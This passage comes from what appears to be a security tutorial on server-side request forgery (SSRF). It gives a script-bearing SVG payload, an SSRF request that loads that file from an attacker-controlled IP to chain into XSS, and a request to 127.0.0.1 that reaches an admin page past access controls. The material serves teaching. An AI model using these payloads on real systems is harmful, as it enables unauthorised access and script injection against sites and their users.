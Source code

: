 **payload.svg content.**

``` text
    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#FF3435" stroke="#FF3435"/>
    <script type="text/javascript">
    alert('PWNED');
    </script>
    </svg>
```

Then simply put your URL into the request and watch the result:

**SSRF to XSS payload.**

``` text
    product_id=&url=http%3a//<YOUR_IP>%3a8000/payload.svg&s=OK
```

<div class="imgblock">

![xss-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/xss_zi2u62.webp)

<div class="title">

Figure 4. SSRF to XSS result

</div>

</div>

- **Bypassing controls**

  As we saw earlier, we could not access the admin section of the
  server; this can be bypassed with this vulnerability:

**SSRF to admin payload.**

``` text
    product_id=&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fadmin.php&s=OK
```

<div class="imgblock">

![control-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/admin_vqyfda.webp)

<div class="title">

Figure 5. SSRF to admin result

</div>

</div>

If the server had some local HTTP servers like a `mongodb` database, we
could bypass the access controls with this vulnerability.

- **Information disclosure**
